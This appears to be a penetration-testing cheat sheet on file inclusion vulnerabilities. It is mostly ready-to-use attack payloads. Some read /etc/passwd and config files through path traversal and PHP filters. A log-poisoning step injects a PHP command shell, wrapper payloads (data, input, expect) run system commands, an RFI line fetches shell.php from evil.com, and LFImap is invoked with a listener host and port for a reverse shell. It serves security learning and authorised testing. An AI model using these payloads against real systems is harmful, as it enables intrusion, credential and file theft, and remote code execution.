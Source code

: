 ```yaml
---
description: Notes about some basic File Insclusion attack
---
```


# File Inclusion

### Playground

* [**THM: File Inclusion, Path Traversal**](https://tryhackme.com/r/room/filepathtraversal)

### Dangerous Function Lead to File Inclusion

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |         ✅        |      ✅      |        ✅       |
| `require()`/`require_once()` |         ✅        |      ✅      |        ❌       |
| `file_get_contents()`        |         ✅        |      ❌      |        ✅       |
| `fopen()`/`file()`           |         ✅        |      ❌      |        ❌       |
| **NodeJS**                   |                  |             |                |
| `fs.readFile()`              |         ✅        |      ❌      |        ❌       |
| `fs.sendFile()`              |         ✅        |      ❌      |        ❌       |
| `res.render()`               |         ✅        |      ✅      |        ❌       |
| **Java**                     |                  |             |                |
| `include`                    |         ✅        |      ❌      |        ❌       |
| `import`                     |         ✅        |      ✅      |        ✅       |
| **.NET**                     |                  |             |                |
| `@Html.Partial()`            |         ✅        |      ❌      |        ❌       |
| `@Html.RemotePartial()`      |         ✅        |      ❌      |        ✅       |
| `Response.WriteFile()`       |         ✅        |      ❌      |        ❌       |
| `include`                    |         ✅        |      ✅      |        ✅       |

### Local File Inclusion (LFI)

Local File Inclusion (LFI) is a type of vulnerability where an attacker can exploit a web application to include files that are already present on the server. By manipulating input parameters, such as URLs or form fields, the attacker can trick the application into loading files from the local file system, potentially accessing sensitive information or executing malicious code.

#### Basic LFI Payloads

| Command                                                   | Description             |
| --------------------------------------------------------- | ----------------------- |
| `/etc/passwd`                                             | Basic LFI               |
| `../../../../etc/passwd`                                  | LFI with path traversal |
| `/../../../etc/passwd`                                    | LFI with name prefix    |
| `./languages/../../../../etc/passwd`                      | LFI with approved path  |
| `php://filter/read=convert.base64-encode/resource=config` | LFI with Base64 Filter  |
| `../../../../etc/passwd%00`                               | LFI with Null byte      |

#### Log Poisoning to RCE

```bash
# Inject Access Log
curl -X "<?php echo passthru(\$_GET['cmd']);?>" http://target.com/

# Access
http://target.com/index.php?page=/var/log/apache2/access.log&cmd=id
```

Access Log Location

Apache:

* /var/log/apache/access.log
* /var/log/apache2/access.log
* /etc/httpd/logs/access\_log&#x20;

Nginx:

* /var/log/nginx/access.log

#### LFI to RCE

{% code overflow="wrap" %}
```bash
# Data Wrappers
http://target.com/index.php?page=/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

# Input Wrappers
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://target.com/index.php?page=php://input&cmd=id"

# Expect Wrappers
curl -s "http://target.com/index.php?page=expect://id"
```
{% endcode %}

### Remote File Inclusion (RFI)

In most languages, including remote URLs is considered as a dangerous practice as it may allow for such vulnerabilities. This is why remote URL inclusion is usually disabled by default. For example, any remote URL inclusion in PHP would require the allow\_url\_include setting to be enabled.

{% code overflow="wrap" %}
```bash
http://target.com/index.php?page=ftp://user:pass@localhost/shell.php&cmd=id
http://target.com/index.php?page=http://evil.com/shell.php&cmd=id
```
{% endcode %}

### Automation

{% code overflow="wrap" %}
```bash
# Fuzzing Parameter
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://target.com/index.php?FUZZ=value' -fs 2309

# Check working payload with LFI wordlists
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://target.com/index.php?view=FUZZ' -fs 2309

# Read Apache2 Conf
curl http://target.com/index.php?view=../../../../../../../../../../../../../../../../../../etc/apache2/apache2.conf
```
{% endcode %}

### Tools

**LFImap**

```bash
# Install
git clone https://github.com/hansmach1ne/LFImap
cd LFImap/
python3 -m venv lfimap_env
source lfimap_env/bin/activate
pip3 install -r requirements.txt

# Usage
Usage:
python3 lfimap.py --help
python3 lfimap.py -U "http://10.10.70.223/playground.php?page=test" -a
python3 lfimap.py -U "http://10.10.70.223/playground.php?page=test" -x --lhost 10.9.245.106 --lport 443
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh33OpuqB9v3evsJlqTqijUPEdY4TF0sKMWuXC1VhMBCh7OIKkk_OplXm29b0KOURlBvtN0Y2hsfCHcHciCxuvVZ0L1uK_3jS9v1Z4Xs5VFgkw2RbFs28oPYwlJOG3p-tAhNcDx8uT4-0v72jgAEMP1KCqs0PYtXVRpTV1P740O_x9XhIHMTPVkDrQoRtM/s1332/lfimap.png" alt=""><figcaption><p>LFImap</p></figcaption></figure>

### WordLists

* https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
* https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows
* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

### References

* [https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
